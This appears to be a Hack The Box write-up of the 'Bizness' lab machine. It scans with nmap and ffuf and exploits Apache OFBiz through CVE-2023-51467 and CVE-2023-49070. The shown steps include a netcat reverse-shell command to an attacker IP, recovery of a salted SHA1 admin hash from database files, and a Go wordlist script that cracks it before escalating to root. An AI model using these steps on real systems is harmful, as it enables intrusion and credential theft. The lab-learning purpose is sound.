 ```yaml
---
title:  Writeup Bizness
published: 2024-05-27
description: 'Writeup of "Bizness" from Hack The Box'
image: './icon.png'
tags: [Go, Apache OFBiz, Hash cracking, SHA1, HTB, Java Deserialization, ysoserial]
category: 'CTF writeup'
draft: false
---
```


# Overview
- Machine: **Bizness**
- OS: **Linux**
- Difficulty: **<span style="color:green">Easy</span>**
- Vulnerabilities: **Authentication Bypass** 

---
# User flag
## Reconnaissance

#### Port scan
To start, we need to identify all the ports that is running on the target machine. We can use the following Nmap command:</br>
``` bash
nmap -sV -sC 10.10.11.252 -p- -vv -oA nmap/port_scan

PORT     STATE    SERVICE  REASON      VERSION
22/tcp   open     ssh      syn-ack     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open     http     syn-ack     nginx 1.18.0
443/tcp  open     ssl/http syn-ack     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```
:::note
As we know about *bizness.htb* now we can put it on our _/etc/hosts_ file.
:::

Opening the website we got the folowing page:
![Bizness main page](./website.png)

#### Directory brute force
I immediately have ran _ffuf_ with the wordlist _common.txt_ from [seclist](https://github.com/danielmiessler/SecLists) to see if are any hidden directories on the page:</br>
```bash
ffuf -u https://bizness.htb/FUZZ -w seclists/Discovery/Web-Content/common.txt -fs 0
------------------------
control         [Status: 200, Size: 34633, Words: 10468]
index.html      [Status: 200, Size: 27200, Words: 92189]
```
And accessing the _'/control'_ page we get the following error message:
![Apache ofBiz error](./control.png)


## Exploitation
Knowing about **Apache OFBiz** I started looking for public exploit and CVEs and eventually I got on this github repo:
::github{repo='jakabakos/Apache-OFBiz-Authentication-Bypass'}
### How it works
The exploit takes advantage of two vulnerabilities of this apache OFZiz version: 

- **CVE-2023-51467**: Is a **Authentication Bypass** that consist in add `?USERNAME=&PASSWORD=&requirePasswordChange=Y.` in the end of the URL and the login fuction of Apache OFBiz will bug and think you are authenticated on the application. If you want more in details about it works check out [Sonic Wall blog post](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/) about it.

- **CVE-2023-49070**: Is a **Authenticated Java Deserialization** bug on the endpoint `/webtools/control/xmlrpc/`.

The exploit I found actually uses [ysoserial](https://github.com/frohoff/ysoserial) to generate the serialized data.Configuring the java enviroment to work properly can be complex, so I recommend running it mannually in a docker container. Luckily, the exploit worked in my environment and I got a **reverse shell** with the follow command: 
```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/sh 10.10.14.27 443'
```
![User flag](./user.png)

:::note
After getting the reverse shell I run the classics commands to get stty working on zsh
shell: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash") 
<CTRL Z>
stty raw -echo;fg
<ENTER>
```
:::

# Privilege escalation

## Reconnaissance

Once I got the shell, I started enumerating the machine with the following commands:
```bash
ss -ltnp # Show the listening ports on the host
sudo -l # Check for sudo privileges (note: password require)
```

Next, I searched for passwords in Apache OFBiz configuration files but without success. Eventually, I found a file named _docker/docker-entrypoint.sh_ which contained the following code that generates a **SHA1 hash**:

```bash
load_admin_user() {
  if [ ! -f "$CONTAINER_ADMIN_LOADED" ]; then
    TMPFILE=$(mktemp)

    # Concatenate a random salt and the admin password.
    SALT=$(tr --delete --complement A-Za-z0-9 </dev/urandom | head --bytes=16)
    SALT_AND_PASSWORD="${SALT}${OFBIZ_ADMIN_PASSWORD}"

    # Take a SHA-1 hash of the combined salt and password and strip off any additional output form the sha1sum utility.
    SHA1SUM_ASCII_HEX=$(printf "$SALT_AND_PASSWORD" | sha1sum | cut --delimiter=' ' --fields=1 --zero-terminated | tr --delete '\000')

    # Convert the ASCII Hex representation of the hash to raw bytes by inserting escape sequences and running
    # through the printf command. Encode the result as URL base 64 and remove padding.
    SHA1SUM_ESCAPED_STRING=$(printf "$SHA1SUM_ASCII_HEX" | sed -e 's/\(..\)\.\?/\\x\1/g')
    SHA1SUM_BASE64=$(printf "$SHA1SUM_ESCAPED_STRING" | basenc --base64url --wrap=0 | tr --delete '=')

    # Concatenate the hash type, salt and hash as the encoded password value.
    ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"

    # Populate the login data template
    sed "s/@userLoginId@/$OFBIZ_ADMIN_USER/g; s/currentPassword=\".*\"/currentPassword=\"$ENCODED_PASSWORD_HASH\"/g;" framework/resources/templates/AdminUserLoginData.xml >"$TMPFILE"

    # Load data from the populated template.
    /ofbiz/bin/ofbiz --load-data "file=$TMPFILE"

    rm "$TMPFILE"

    touch "$CONTAINER_ADMIN_LOADED"
  fi
}
```

:::note
The code essentially generates a **SALT**, concatenate it with the **PASSWORD**, hashes the result using `sha1sum`, and encode it again using base64 for URLs. Finally, it save the encoded password in the format: `$SHA${SALT}{SHA1}`.
:::

## Exploitation

After learning about the hash, I used this command `grep -r '$SHA` to see if the hash existed on the machine. The command returned some files inside the directory _/runtime/data/derby/ofbiz/seg0/_. Navigating to this directory, I found many _.dat_ files (probally database files), So I used `strings` and `grep` commands to extract the hash. 

![strings command](./strings.png)

## Cracking the hash

The easy option would by to manually decode the base64-encoded password and provide the SALT and HashType to John or Hashcat. However, to improving my Go skills, I coded the following script to crack the hash:

```go
package main

import (
	"bufio"
	"crypto/sha1"
	"encoding/base64"
	"encoding/hex"
	"fmt"
	"os"
	"strings"
)

const salt = "d"

const HASH = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

func main() {

	//Read the wordlist file
	worlist_file := "/usr/share/wordlists/rockyou.txt"
	wordlist, _ := os.Open(worlist_file)
	scanner := bufio.NewScanner(wordlist)
    defer wordlist.Close()

	for scanner.Scan() {

        // Use sha1sum on the Salt and password
		hash := sha1.New()
		hash.Write([]byte(salt))
		hash.Write([]byte(scanner.Text()))
		sha1_pass := hash.Sum(nil)

        // Base64 encode it and remove the '=' charactes at the end. 
		found_hash := strings.TrimRight(base64.URLEncoding.EncodeToString(sha1_pass), "=")

        // Check if the Hash we got matches the hash we are searching for.
		if found_hash == HASH {
			fmt.Println("Found: ", scanner.Text())
            break
		}
	}

}

```
running the above code with `go run ./main.go` will eventually give us the right password as showing in the following screenshot:
![Password](./hash_crack.png)

:::warning
This code works but have some compabilities problems. For example, if the password contains the character '%', the `printf` function in bash (docker-entrypoint.sh) will interpret it, but your go script won't, so we will never found the password.
:::

With the cracked password, we can log in as root:</br>
`su root`

![Root](./root.png)

With root access, we can read the contest of `/root/root.txt` file and complete the CTF challenge.
